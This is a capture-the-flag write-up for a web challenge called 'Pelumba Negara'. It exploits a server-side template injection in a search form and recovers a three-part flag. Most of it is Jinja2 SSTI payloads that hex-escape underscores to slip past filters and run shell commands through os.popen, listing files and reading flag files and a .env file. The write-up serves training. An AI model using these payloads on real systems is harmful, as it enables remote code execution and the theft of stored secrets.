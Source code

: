 # Pelumba Negara

> Category: Web Exploitation🕸️

![img](desc.png)


## 🔍 Overview

Visiting the page shows us the search form.

![img](page.png)


## ✨ Solution

I suspect it may be some injection vulnerabilities. I have tried with SQL injection and it doesn't works, but it works when I inject with the SSTI payload:
```
{{7*7}}  <-- which should return 49
```

![img](poc.png)

So, it is indeed an **SSTI vulnerability**. Let's try to list the file in the server:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```

![img](ls.png)

Try to view the content of the <code>flag.txt</code>:

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag.txt')|attr('read')()}}
```

![img](flagtxt.png)

However, the flag is not the real flag:

![img](flagfake.png)

But, there is another file <code>Minardi2002.txt</code>, try to view the contents:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat Minardi2002.txt')|attr('read')()}}
```

![img](minardi.png)

It gives us the youtube link, try to view the link:

![img](yt.png)

Also no flag here. Try to list all the file including the hidden one:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -la')|attr('read')()}}
```

![img](lsla.png)

There is a <code>.env</code> file, try to view the content of it:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat .env')|attr('read')()}}
```

![img](env.png)

It gives us with 3 different files, try to view each content of the files:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat /usr/1976.txt')|attr('read')()}}
```

![img](usr.png)

It reveals the last part of the flag finally. Now, we can read the other two part of the flags:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat /var/malaysia.txt')|attr('read')()}}
```

![img](var.png)

Nice, now read the last part of the flag:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat /tmp/f1.txt')|attr('read')()}}
```

![img](tmp.png)

<details><summary><b>🏳️Flag:</b></summary>
<b>3108{d4r1_Ku4l4_Lumpur_k3_p3nt4s_duni4_Alex_Y00ng_f1rst_M4l4ysi4n_F1_dr1v3r}</b></details>